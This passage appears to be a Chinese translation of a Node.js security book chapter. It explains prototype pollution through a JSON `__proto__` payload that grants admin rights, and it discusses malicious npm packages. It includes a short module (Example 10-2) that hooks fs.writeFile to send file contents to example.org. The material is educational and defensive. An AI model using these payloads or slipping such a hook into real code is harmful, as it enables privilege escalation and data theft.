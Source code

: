 ##### 示例 10-1\. *prototype-pollution.js*

```
// WARNING: ANTIPATTERN!
function shallowClone(obj) {
  const clone = {};
  for (let key of Object.keys(obj)) {
    clone[key] = obj[key];
  }
  return clone;
}
const request = '{"user":"tlhunter","__proto__":{"isAdmin":true}}';
const obj = JSON.parse(request);

if ('isAdmin' in obj) throw new Error('cannot specify isAdmin');
const user = shallowClone(obj);
console.log(user.isAdmin); // true
```

在这个例子中，攻击者提供了一个带有`__proto__`属性的请求对象，它本身是另一个对象。在这个对象中，`isAdmin`属性被设置为 true。应用代码依赖于这个字段来确定是否有特权用户发出了请求。应用程序接收请求并将请求 JSON 解析为名为`obj`的对象。此时对象上有一个名为`__proto__`的属性，尽管它还没有设置无效的原型；幸运的是`JSON.parse()`无法直接覆盖对象的原型。接下来，应用程序检查`obj.isAdmin`字段是否已设置，这是确保用户未覆盖属性的一种方法。这个检查没有触发，代码继续执行。

然后，应用程序对请求对象执行浅克隆并返回结果。`shallowClone()`方法通过迭代对象的每个属性并将其赋值给新对象来进行克隆。这就是漏洞所在。`clone['__proto__']`赋值导致原型被覆盖。在这种情况下，生成的`user`对象的原型被设置为攻击者提供的`{"isAdmin":true}`对象。稍后应用程序检查该属性时，结果是用户权限被提升为管理员权限。

这一开始可能看起来有些牵强。但这实际上影响了许多不同的应用程序，并导致了至少几十个 npm 包的安全补丁。在现代 Node.js 应用程序构建方式中，一个第三方中间件正在解析请求对象，另一个中间件正在克隆对象，所有这些都在应用程序控制器逻辑最终访问解析后的 JSON 表示之前在幕后发生。由于数据在应用程序的难以察看的角落之间频繁移动，开发人员很难跟踪复杂的 Node.js 应用程序实际在做什么。

## 恶意 npm 包

另一个攻击面完全绕过了前门。这个攻击来自应用程序内部，通过“供应链”，通过恶意构造的 npm 包。这些攻击也可能影响其他平台，但迄今为止，似乎这是影响 npm 包仓库最多的问题之一，原因有几个。过去的包仓库并不像 npm 那样容易发布。还没有强制规定，发布到版本控制的代码必须与在安装包时部署的代码匹配，这意味着 GitHub 仓库中易于审核的代码可能不代表 tarball 安装时部署的代码。尽管发布的便利性和 JavaScript 的动态特性促成了 Node.js 和 npm 的流行，但它们无疑给安全留下了伤痕。

声称包可以被用作攻击向量可能听起来过于谨慎，但事实上已经多次发生过。有时恶意包是通过*错别字占用*安装的，即将包命名为流行包的错别字。有时它是一个完全新的包，承诺其他包不提供的功能。有时它比这更可怕，例如，流行包的维护者接受引入微妙安全漏洞的 PR，或者维护者将包的所有权交给了一个攻击者，而假定他们是好心的。

无论如何，恶意包将进入应用程序。Node.js 开发人员减少获取这些恶意包风险的最重要方法之一是尽量减少依赖项数量，支持由知名作者维护的包，并倾向于具有较少子依赖关系的依赖项。

一些组织尝试的方法是手动审核软件包并维护软件包版本的允许列表。不幸的是，这是一个非常困难的任务，并且通常需要整个团队进行审计，这是只有大型科技公司才能享有的特权。通过手动审查可以在组织内部使用哪些软件包，开发人员经常陷入困境，他们的工单被阻塞，因为等待软件包批准请求。此外，手动审核软件包并不能保证其免受所有漏洞的影响。即使如此，批准的软件包可能不会固定其子依赖版本，除非应用程序开发人员明确在*package-lock.json*文件中固定它们，否则不能保证新的恶意软件包不会潜入。

与恶意包的常见误解是，只有当它们直接触及通过应用程序流动的用户数据时才具有危险性，而深度嵌套的实用程序模块并没有太多风险。实际上，任何在 Node.js 应用程序中加载的模块都有能力以任何它认为合适的方式修改任何核心 Node.js API。

示例 10-2 描述了一个 Node.js 模块，一旦被需要，就会拦截任何文件系统写入并将其传输到第三方服务。

##### 示例 10-2\. *malicious-module.js*

```
const fs = require('fs');
const net = require('net');
const CONN = { host: 'example.org', port: 9876 };
const client = net.createConnection(CONN, () => {});
const _writeFile = fs.writeFile.bind(fs);
fs.writeFile = function() {
  client.write(`${String(arguments[0])}:::${String(arguments[1])}`);
  return _writeFile(...arguments);
};
```
